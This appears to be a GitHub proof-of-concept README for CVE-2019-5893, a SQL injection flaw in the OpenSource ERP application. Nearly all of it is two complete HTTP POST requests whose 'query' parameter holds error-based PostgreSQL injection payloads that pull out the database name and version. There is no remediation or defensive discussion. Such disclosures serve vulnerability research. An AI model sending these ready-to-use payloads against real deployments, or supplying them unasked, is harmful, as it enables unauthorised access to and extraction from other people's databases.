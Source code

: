 # OpenSource-ERP-SQL-Injection
[OpenSource ERP](http://www.nelson-it.ch/) application has SQL Injection vulnerability.

## CVE-2019-5893
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-5893

# PoC - Get DB name
```
POST /db/utils/query/data.xml HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: http://172.16.118.142:8024
Referer: http://172.16.118.142:8024/
Cache-Control: no-cache
Accept-Language: en-us,en;q=0.5
Cookie: MneHttpSessionId8024=15471285865828
Host: 172.16.118.142:8024
Content-Length: 423
Accept-Encoding: gzip, deflate
Connection: close

sqlend=1&query=%27%7c%7ccast((select+chr(95)%7c%7cchr(33)%7c%7cchr(64)%7c%7c(SELECT+current_database())%7c%7cchr(95)%7c%7cchr(33)%7c%7cchr(64))+as+numeric)%7c%7c%27&schema=mne_application&table=userpref&cols=startweblet%2cregion%2cmslanguage%2cusername%2cloginname%2cpersonid%2clanguage%2cregionselect%2ctimezone%2ccountrycarcode%2cstylename%2cusername%2cstartwebletname&usernameInput.old=session_user&mneuserloginname=test
```
![alt tag](https://emreovunc.com/blog/en/OpenERP-SQL-DBname.png)

# PoC - Get DB version
```
POST /db/utils/query/data.xml HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: http://172.16.118.142:8024
Referer: http://172.16.118.142:8024/
Cache-Control: no-cache
Accept-Language: en-us,en;q=0.5
Cookie: MneHttpSessionId8024=15471285865828
Host: 172.16.118.142:8024
Content-Length: 414
Accept-Encoding: gzip, deflate
Connection: close

sqlend=1&query=%27%7c%7ccast((select+chr(95)%7c%7cchr(33)%7c%7cchr(64)%7c%7c(SELECT+VERSION())%7c%7cchr(95)%7c%7cchr(33)%7c%7cchr(64))+as+numeric)%7c%7c%27&schema=mne_application&table=userpref&cols=startweblet%2cregion%2cmslanguage%2cusername%2cloginname%2cpersonid%2clanguage%2cregionselect%2ctimezone%2ccountrycarcode%2cstylename%2cusername%2cstartwebletname&usernameInput.old=session_user&mneuserloginname=test
```
![alt tag](https://emreovunc.com/blog/en/OpenERP-SQL-DBversion.png)
